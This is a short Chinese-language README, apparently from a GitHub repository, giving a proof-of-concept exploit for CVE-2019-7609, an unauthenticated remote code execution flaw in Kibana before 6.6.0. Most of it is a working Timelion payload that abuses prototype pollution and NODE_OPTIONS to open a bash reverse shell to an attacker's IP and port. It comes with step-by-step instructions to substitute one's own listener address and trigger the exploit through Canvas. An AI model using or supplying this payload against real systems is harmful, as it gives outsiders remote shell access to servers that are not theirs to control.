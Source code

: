 ## CVE-2019-7609-kibana<6.6.0未授权远程代码命令执行

## POC
将POC里的反链IP地址换成自己的，然后在目标机器上的 `Timelion` 选项下将以下 `POC` 粘贴进去，然后点击 `Run` 运行：  

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/10.10.20.166/8989 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
![](./img/Timelion.jpg)  

然后自己机器开启监听，再点击 `Canvas` 即可出发漏洞。  
![](./img/Canvas.jpg)  

